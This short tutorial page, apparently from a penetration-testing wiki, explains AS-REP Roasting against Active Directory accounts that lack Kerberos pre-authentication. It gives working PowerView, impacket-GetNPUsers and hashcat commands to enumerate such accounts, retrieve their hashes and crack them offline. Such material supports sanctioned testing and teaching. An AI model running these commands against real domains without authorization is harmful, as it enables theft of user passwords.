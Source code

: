 # AS-REP Roasting

**AS-REP Roasting** targets Active Directory accounts without Kerberos pre-authentication.

The attack is made in few steps:

1. **Attacker requests TGT** from the KDC for a user without pre-authentication.
2. **KDC sends encrypted TGT** to the attacker.
3. **Attacker brute-forces** the TGT offline to obtain the user's password.

## Enumerate <a href="#enumerate" id="enumerate"></a>

Enumerating accounts with Kerberos pre-authentication disabled from inside the network.

{% tabs %}
{% tab title="PowerView" %}
```
Get-DomainUser -PreauthNotRequired -Verbose
```
{% endtab %}
{% endtabs %}

## Retrieve the hashes <a href="#crack" id="crack"></a>

```bash
impacket-GetNPUsers <domain_name>/ -no-pass -usersfile <userslist_file>
```

## Crack <a href="#crack" id="crack"></a>

```
hashcat -m 18200 <hashes> /usr/share/wordlists/rockyou.txt
```
